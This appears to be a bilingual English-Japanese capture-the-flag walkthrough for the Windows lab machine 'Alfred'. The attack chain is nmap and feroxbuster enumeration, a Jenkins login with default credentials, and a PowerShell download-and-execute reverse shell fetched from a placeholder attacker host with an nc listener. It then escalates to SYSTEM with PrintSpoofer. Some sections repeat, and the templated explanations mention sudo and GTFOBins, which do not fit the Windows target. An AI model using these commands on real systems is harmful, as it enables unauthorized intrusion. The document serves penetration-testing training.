

## Overview

| Field                     | Value |
|---------------------------|-------|
| OS                        | Windows |
| Difficulty                | Not specified |
| Attack Surface            | Not specified |
| Primary Entry Vector      | weak-credential, command-execution, reverse-shell |
| Privilege Escalation Path | seimpersonate-abuse |

## Reconnaissance

### 1. PortScan

---

Initial reconnaissance narrows the attack surface by establishing public services and versions. Under the OSCP assumption, it is important to identify "intrusion entry candidates" and "lateral expansion candidates" at the same time during the first scan.

## Rustscan

💡 Why this works  
High-quality reconnaissance narrows a large attack surface into a few validated exploitation paths. Accurate service mapping prevents time loss and supports targeted follow-up testing.

## Initial Foothold

### Not implemented (or log not saved)


## Nmap
```bash
ip
nmap -p- -sC -sV -T4 $ip
feroxbuster -u http://$ip:8080 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -t 100 -x php,html,txt -r --timeout 3 --no-state -s 200,301 -e -E
```

### 2. Local Shell

---

ここでは初期侵入からユーザーシェル獲得までの手順を記録します。コマンド実行の意図と、次に見るべき出力（資格情報、設定不備、実行権限）を意識して追跡します。

### 実施ログ（統合）

## 1. Reconnaissance

まず全ポートを確認し、Jenkins が動作する `8080/tcp` を優先ターゲットに設定します。

```bash
nmap -p- -sC -sV -T4 $ip
feroxbuster -u http://$ip:8080 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -t 100 -x php,html,txt -r --timeout 3 --no-state -s 200,301 -e -E
```

`/login` が確認できるため、Jenkins 認証突破を試行します。

## 2. Initial Foothold

公開されている攻略例でも使われる通り、デフォルト資格情報 `admin:admin` が有効なケースがあります。  
ログイン後はジョブの Build Step あるいは Script Console を使って PowerShell の reverse shell を実行し、低権限シェルを取得します。

```
powershell -c "IEX(New-Object Net.WebClient).DownloadString('http://ATTACKER_IP:8000/rev.ps1')"
```

攻撃側待受:

```bash
nc -lvnp 4444
```

## 3. Privilege Escalation

取得したシェルで `whoami /priv` を確認すると `SeImpersonatePrivilege` が有効なケースが多く、トークン悪用による SYSTEM 昇格が可能です。  
`PrintSpoofer` を実行して SYSTEM シェルへ移行します。

```
whoami /priv
PrintSpoofer64.exe -i -c cmd
whoami
```

SYSTEM になったらフラグを回収します。

```
type C:\Users\bruce\Desktop\user.txt
type C:\Users\Administrator\Desktop\root.txt
```

## 4. Notes

Alfred は「弱いWeb管理認証」から「Windows ローカル権限昇格」へ繋げる典型問題です。  
OSCP対策としては、Web管理画面に入れた時点で OS コマンド実行経路の有無を必ず確認し、`SeImpersonatePrivilege` の有無を最優先でチェックすると効率が上がります。

💡 Why this works  
Initial access succeeds when enumeration findings are turned into a practical exploit chain. Capturing credentials, file disclosure, or direct RCE creates reliable pivot points for privilege escalation.

## Privilege Escalation

### 3.Privilege Escalation

---

During the privilege escalation phase, we will prioritize checking for misconfigurations such as `sudo -l` / SUID / service settings / token privilege. By starting this check immediately after acquiring a low-privileged shell, you can reduce the chance of getting stuck.

```
whoami /priv
PrintSpoofer64.exe -i -c cmd
whoami
```

💡 Why this works  
Privilege escalation depends on chaining local weaknesses such as sudo misconfiguration, weak file permissions, or credential reuse. If a GTFOBins technique is used, the mechanism is that an allowed binary executes a child process or shell without dropping elevated effective privileges.

## Credentials

```text
No credentials obtained.
```

## Lessons Learned / Key Takeaways

### 4.Overview

---




## References

- nmap
- rustscan
- nc
- winpeas
- sudo
- php
- GTFOBins
